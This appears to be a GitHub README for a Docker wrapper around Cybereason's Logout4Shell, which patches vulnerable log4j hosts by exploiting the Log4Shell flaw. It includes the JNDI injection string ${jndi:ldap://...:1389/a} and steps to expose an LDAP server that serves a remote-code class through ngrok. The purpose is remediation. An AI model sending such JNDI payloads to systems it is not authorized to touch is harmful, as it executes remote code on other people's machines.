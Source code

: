 ## Log4j Docker Vaccine

A containerized way to run the log4j vaccine offered by Cyberreason

- https://github.com/Cybereason/Logout4Shell

### Make it go
Clone this repo:

```bash
git clone https://github.com/jeffbryner/log4j-docker-vaccine.git
```

Build and run the containers:

```bash
docker-compose -f docker-compose.yml -p vaccine up
```

You now have a listening ldap server that will serve up the Log4jRCE class to innoculate a vulnerable log4j instance.

You can expose this to the internet (if you like) by using ngrok.
 - https://dashboard.ngrok.com/get-started/setup

 ```bash
 ngrok tcp 1389
 ```

 You can send a vulnerable log4j instance to this using the infamous jndi input string:
 ```
 ${jndi:ldap://<ngrokurlgoeshere>:1389/a}
 ```
